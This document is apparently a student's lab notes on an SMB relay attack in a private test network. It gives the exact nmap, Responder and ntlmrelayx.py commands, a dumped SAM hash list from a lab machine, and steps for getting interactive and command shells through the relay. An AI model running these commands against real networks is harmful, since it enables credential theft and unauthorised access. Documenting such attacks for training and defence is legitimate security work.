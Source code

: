 SMB Relay Attacks Lab

Sunday, October 1, 2023

7:48 PM

 

-   nmap \--script=smb2-security-mode.nse -p445 10.0.2.0/24 -Pn

    -   Add -Pn if unable to ping

![](006_SMB_Relay_Attacks_Lab_000.png){width="6.0in" height="6.427083333333333in"}

 

 

Add targets with signing disable or enable but not required to text file

![](006_SMB_Relay_Attacks_Lab_001.png){width="16.625in" height="4.4375in"}

 

Switch off SMB and HTTP in Responder.conf file /etc/responder/Responder.conf

![](006_SMB_Relay_Attacks_Lab_002.png){width="12.385416666666666in" height="4.302083333333333in"}

 

Run Responder sudo responder -I eth0 -dwPv

![](006_SMB_Relay_Attacks_Lab_003.png){width="10.041666666666666in" height="6.875in"}

 

Run ntlmrelayx.py ntlmrelayx.py -tf targets.txt -smb2support

![](006_SMB_Relay_Attacks_Lab_004.png){width="13.822916666666666in" height="4.802083333333333in"}

 

Example pointing target machine at attacker machine [\\\\10.0.2.15](file://10.0.2.15) in file explorer

![](006_SMB_Relay_Attacks_Lab_005.png){width="11.166666666666666in" height="4.114583333333333in"}

 

You can see above 10.0.2.9 SUCCEED and Hash dump

> Administrator:500:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
>
> Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
>
> DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
>
> WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:bb5020953fd3b0b0501ba1c3e2a391a0:::
>
> peterparker:1001:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
>
>  

Run ntlmrelayx again with -I and redo sample connection

Connect target machine again to attacker machine and run nc 127.0.0.1 11000 (11001, 11002)

 

![](006_SMB_Relay_Attacks_Lab_006.png){width="12.854166666666666in" height="4.875in"}

 

Connect in with netcat

![](006_SMB_Relay_Attacks_Lab_007.png){width="7.21875in" height="1.1458333333333333in"}

 

Playing with the commands (remember help for commands)

![](006_SMB_Relay_Attacks_Lab_008.png){width="9.604166666666666in" height="5.625in"}

 

 

Example of running a command with ntlmrelayx

![](006_SMB_Relay_Attacks_Lab_009.png){width="11.072916666666666in" height="6.6875in"}

 

 

 
